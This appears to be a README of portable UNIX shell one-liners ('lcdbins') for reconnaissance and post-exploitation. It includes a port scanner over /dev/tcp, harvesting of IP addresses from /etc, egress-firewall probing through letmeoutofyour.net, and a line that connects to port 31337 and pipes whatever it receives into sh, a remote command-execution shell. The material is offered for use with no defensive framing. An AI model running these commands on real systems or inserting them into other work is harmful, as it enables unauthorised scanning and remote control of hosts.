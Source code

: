 # lcdbins

An **lcdbin** is a lowest-common denominator binary; a platform-agnostic oneliner that should work on almost any UNIX environment.

Parse listening ports on /proc/net/tcp:

```shell
for i in $(awk -F "[ :]+" '{print $4}' /proc/net/tcp); do bc <<< "obase=10; ibase=16; $i"; done | sort -un
```

Get all IP addresses in /etc/:

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
```

Scan TCP ports:

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```

Connect to a port and execute the command received:

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port:

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address:

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```
